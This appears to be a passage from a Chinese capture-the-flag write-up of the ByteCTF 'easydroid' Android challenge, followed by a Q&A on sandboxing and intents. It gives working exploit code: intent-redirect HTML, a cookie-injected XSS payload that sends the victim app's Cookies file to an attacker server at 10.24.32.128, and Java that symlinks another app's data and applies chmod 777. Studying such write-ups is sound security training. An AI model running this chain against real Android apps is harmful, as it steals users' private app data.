渲染`easydroid.html`，通过`TestActivity`渲染`exp.html`，将危险`<script>`写入`Cookies`文件。

easydroid.html

```
hahaha1

<script>
    function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms))
    }    
    sleep(1000).then(() => {
        location.href = "intent:#Intent;component=com.bytectf.easydroid/.TestActivity;S.url=http%3A%2F%2F10.24.32.128:5000%2Fexp.html;end";
        // Intent { act=android.intent.action.VIEW cmp=com.bytectf.easydroid/.TestActivity (has extras) } mExtras: Bundle[{url=http://10.24.32.128:5000/exp.html}]
        sleep(40000).then(() => {
            location.href = "intent:#Intent;component=com.bytectf.easydroid/.TestActivity;S.url=file%3A%2F%2F%2Fdata%2Fdata%2Fcom.bytectf.pwneasydroid%2Fsymlink.html;end";
            // Intent { act=android.intent.action.VIEW cmp=com.bytectf.easydroid/.TestActivity (has extras) } mExtras: Bundle[{url=file:///data/data/com.bytectf.pwneasydroid/symlink.html}]
        })
    })
</script>

```

第8行，第11行，[location.href](https://blog.csdn.net/idomyway/article/details/78903171)打开网页。将构造好的`Intent`作为参数，传给`shouldOverrideUrlLoading`进行`Intent`重定向。跳转到`TestActivity`渲染`exp.html`。  
第10行，等待40秒再渲染下一个网页，是因为打开网页，缓存Cookie需要20~40秒时间。

exp.html

```
<h1>injected cookie with xss</h1>
<script>document.cookie = "x = ''"</script>
<!-- new Image().src = "http://10.24.32.128:5000/getUrlParam?msg=" + encodeURIComponent(document.getElementsByTagName("html")[0].innerHTML);\n -->

```

第2行，将恶意JS代码作为`Cookie`值存在`Cookies`文件中。

##### 4

TestActivity中`Webview`的`setAllowFileAccess`和`setJavaScriptEnable`都已经打开，所以`Webview`可以渲染文件因为之前建立好了软链接，通过跳转`TestActivity`渲染`file:///data/data/com.bytectf.pwneasydroid/symlink.html`即是渲染`/data/data/com.bytectf.easydroid/Cookies`。

```
new Image().src = "http://10.24.32.128:5000/getUrlParam?msg=" + encodeURIComponent(document.getElementsByTagName("html")[0].innerHTML);

```

将`Cookies`文件中的全部内容作为文本，通过http传出来。

  
在`flask`服务器上接到`flag`。因为`Cookies`在安卓中是以`sqlite`的`.db`形式保存，所以以文本形式打开会有乱码。但因为我们在`FlagReciever`中已经知道`flag`放在什么地方，所以乱码也不影响我们读到`flag`。

#### 3. 考查知识点

1. Intent重定向
2. WebView组件  
   <https://developer.android.com/reference/android/webkit/WebView>  
   <https://developer.android.com/reference/android/webkit/WebViewClient#shouldOverrideUrlLoading(android.webkit.WebView,%20java.lang.String>)  
   <https://developer.android.com/reference/android/webkit/CookieManager#setCookie(java.lang.String,%20java.lang.String>)
3. XSS攻击  
   <https://zhuanlan.zhihu.com/p/342603075>

#### 4. 问题

##### 1.为什么需要TestActivity来渲染exp.html和symlink.html？只用MainActivity不可以吗？

可以在easydroid.html脚本中，构造这样的 `Intent : {cmp=com.bytectf.easydroid/.MainActivity data='http://toutiao.com@10.24.32.128:5000/exp.html'}`。

> easydroid.html中的第二个URL的scheme是file://，在MainActivity.java中绕不过。

##### 2.恶意js代码为什么需要btoa加密一下？

exp.html

```
<h1>injected cookie with xss</h1>
<script>document.cookie = "x = ''"</script>
<!-- new Image().src = "http://10.24.32.128:5000/getUrlParam?msg=" + encodeURIComponent(document.getElementsByTagName("html")[0].innerHTML);\n -->

```

> 直接明文的话，可能有保护机制，容易被截断。

##### 3.为什么可以将其他app中的文件软链接进自己的文件夹中？这样不是很不安全吗？

Pwn Easydroid/MainActivity.java

```
private String symlink() {
        try {
            String root = getApplicationInfo().dataDir;
            String symlink = root + "/symlink.html";
            String cookies = getPackageManager().getApplicationInfo("com.bytectf.easydroid", 0).dataDir + "/app_webview/Cookies";

            Runtime.getRuntime().exec("rm " + symlink).waitFor();
            Runtime.getRuntime().exec("ln -s " + cookies + " " + symlink).waitFor();
            Runtime.getRuntime().exec("chmod -R 777 " + root).waitFor();

            return symlink;
        } catch (Throwable th) {
            throw new RuntimeException(th);
        }
    }

```

> 软链接并没有不安全，主要要看软连接指向的那个文件，UID是否有读写权限。在这道问题中，symlink-->cookies，symlink被赋予777权限，可以被其他应用访问。而后是通过Easydroid的TestActivity.java来访问symlink-->cookies，这样TestActivity是可以访问cookies的。

##### 4.一个app中的startactivity(Intent)跳转到了另一个app中，新运行的app是在原有app的沙箱中执行吗?换句话说，新执行的app可以访问原有app的文件夹中的文件吗？

如果不可以，那么`Easydroid/TestActivity`怎么可以渲染`/data/user/0/com.bytectf.pwneasydroid/symlink.html`。第一道题`pwn`也不应该能访问`babydroid`的文件夹。

> Intent跳转本身是不携带任何权限的，文件读写权限的操作是在之前就处理好的。
